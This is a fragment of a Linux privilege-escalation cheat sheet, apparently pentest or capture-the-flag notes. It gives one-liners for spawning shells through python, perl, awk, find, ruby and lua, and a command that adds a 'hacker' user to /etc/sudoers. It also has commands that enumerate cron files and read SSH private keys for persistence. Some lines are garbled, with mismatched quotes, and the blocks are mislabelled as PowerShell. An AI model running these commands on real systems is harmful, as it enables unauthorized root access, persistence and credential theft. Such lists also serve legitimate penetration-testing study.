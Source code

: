@:: <https://github.com/DominicBreuker/pspy>

Run in background and watch for any processes running

#### [](#header-4) Spawn TTY

@:: <https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>

```powershell
python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
awk 'BEGIN {system("/bin/sh")}'
find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
irb(main:001:0> exec "/bin/sh"
Can also use socat
```

#### [](#header-4) Enum Scripts
```powershell
cd /EscalationServer/
chmod u+x linux_enum.sh
chmod 700 linuxenum.py
```
```powershell
./linux_enum.sh
python linuxenum.py
```

#### [](#header-4) Add User to Sudoers
```powershell
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

#### [](#header-4) List CronJobs
```powershell
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

#### [](#header-4) Check for SSH Readable SSH Keys for Persistence and Elevation
```powershell
cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
```